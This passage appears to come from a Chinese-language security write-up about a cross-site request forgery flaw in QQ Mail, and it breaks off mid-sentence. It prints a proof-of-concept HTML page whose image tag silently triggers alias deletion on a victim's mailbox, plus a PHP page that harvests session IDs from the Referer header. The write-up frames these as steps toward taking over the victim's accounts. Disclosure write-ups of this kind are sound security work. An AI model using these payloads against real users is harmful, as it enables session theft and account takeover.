  

代码是：

```
&lt;!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"&gt;
&lt;html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en"&gt;
&lt;head&gt;
&lt;meta http-equiv="Content-Type" content="text/html;charset=UTF-8"&gt;
&lt;title&gt;test&lt;/title&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;img src="http://set1.mail.qq.com/cgi-bin/modify_alias?action=apply&amp;sid=FQm36TMwNtZsZWYz&amp;t=apply_delalias&amp;s=done&amp;alias=cnmlgb.vip@qq.com"/&gt;
&lt;/body&gt;
&lt;/html&gt;
```

 

[![](https://p3.ssl.qhimg.com/t019dd2257ef8b914a1.png)](https://p3.ssl.qhimg.com/t019dd2257ef8b914a1.png)



然后登上十五天就可以成功了。

总结：因为QQ邮箱放弃了来源验证。



大家觉得高潮就这么结束了吗？当然没有啦。现在漏洞陷入了难关，洞主想给他发一个链接，然后让别人点击，这样他的邮箱十五天后就注销成功了，然后黑客再去注册，然后盗取他的所有账号密码。



但是事实上是这样：

 

[![](https://p2.ssl.qhimg.com/t01bdbd492502941b50.png)](https://p2.ssl.qhimg.com/t01bdbd492502941b50.png)



现在我们可以看到URL上面直接显示出了SID，那我们就写点代码直接抓取这个URL吧

```
&lt;html&gt;
     &lt;head&gt;
              &lt;meta http-equiv="Content-Type" content="text/html; charset=UTF-8"&gt;
              &lt;title&gt;QQmail-CSRF-TEST&lt;/title&gt;
     &lt;/head&gt;
      &lt;body&gt;
&lt;?php
       $ref = $_SERVER['HTTP_REFERER'];
    echo "&lt;div&gt; $ref &lt;/div&gt; ";
?&gt;
       &lt;/body&gt;
&lt;/html&gt;
```

然后洞主自己用自己的博客加了一个test页面，把代码保存在了：
